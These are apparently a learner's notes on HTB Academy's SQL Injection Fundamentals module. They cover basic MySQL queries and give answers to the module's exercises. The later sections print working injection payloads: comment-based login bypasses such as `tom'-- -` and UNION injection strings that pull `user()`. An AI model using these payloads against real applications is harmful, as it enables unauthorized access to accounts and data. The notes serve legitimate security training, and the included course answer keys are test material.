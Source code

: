 #HTB academy SQL INJECTION FUNDAMENTALS 

## 1. Connect to mysql of host 
```cmd
mysql -u admin -h 192.168.1.1 -P 3111 -p 
```
## 2. Command line query
### DATABASE 
SHOW
```sql
SHOW DATABASES;
```
USE 
```sql
USE name_database;
```
TABLE
```sql
SHOW TABLES;
```

## 3. Query record in table
### Sorting Results
- **ORDER BY** name_column_sort

```sql
SELECT * FROM logins ORDER BY password;
```

### LIMIT results
- **LIMIT** number_results_record or  **LIMIT** number_begin,number_end
- the first record starting from 0 

```sql
SELECT * FROM logins LIMIT 2;

SELECT * FROM logins LIMIT 1, 2;  #id 2,3 
```

### WHERE Clause
WHERE <condition>
```sql
SELECT * FROM logins WHERE id > 1;

SELECT * FROM logins where username = 'admin';
```
  
### LIKE Clause
WHERE column_name **LIKE** 'admi%'
```sql
SELECT * FROM logins WHERE username LIKE 'admin%';
```

## 4. Questions
### question 1:
What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?
  
### answer 1:
```sql
select last_name  from employees where first_name like  'Bar%' and hire_date= '1990-01-01';
```  
 
### question 2:
In the 'titles' table, what is the number of records WHERE the employee number is greater than 200000 OR their title does NOT contain 'engineer'?

### answer 2:
```sql
select * from titles where emp_no > 200000 or title not Like '%Engineer%';
``` 
  
## 5. Subverting Query Logic (SQLI)
### Comments 
```
#
-- -
/**/
```  
### question 1: 
Login as the user tom 

### answer 1:  
```sql
SELECT * FROM logins WHERE username='tom'-- ' AND password = 'something';  
```  
Payload bypass: user: `tom'-- -`

### question 2: 
Login as the user with the id 5 

### answer 2:  
```sql
SELECT * FROM logins WHERE (username='zev' or id=5)-- -' AND id > 1) AND password = '202cb962ac59075b964b07152d234b70';
```
  
This query will prevent anyone from logging in as admin (with id admin=1 ) 
  
We see that the password was hashed in this query and this will prevent us inject in the password field 
  
Payload bypass: user: `zev' or id=5)-- -`

## 6. Union Clause  
A **UNION** statement can only operate on SELECT statements with an equal number of columns.
### Even columns 
Table ports has 2 columns and table ships also has 2 columns

```sql
SELECT * FROM ports UNION SELECT * FROM ships;  
```  

### Un-even Columns
Table ports has 2 columns and table ships also has 3 columns

```sql
SELECT * FROM ports UNION SELECT ship,city FROM ships;  
  
SELECT  code,city,3 UNION SELECT * FROM ships; 
```    
  
### question 1: 
Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.

### answer 1:
- show databases;
- use employees;
- show tables;
- describe employee;    => 6 column
- describe departments  => 2 column
  
Payload : `select * from employees union select dep_no,dep_name,3,4,5,6 from departments;`
  
### question 2:
Use a Union injection to get the result of 'user()'

### answer 2:
- Check column in table
  
`' order by 4-- -`
- inject user()
  
`' union select 1,2,3,user()-- -`
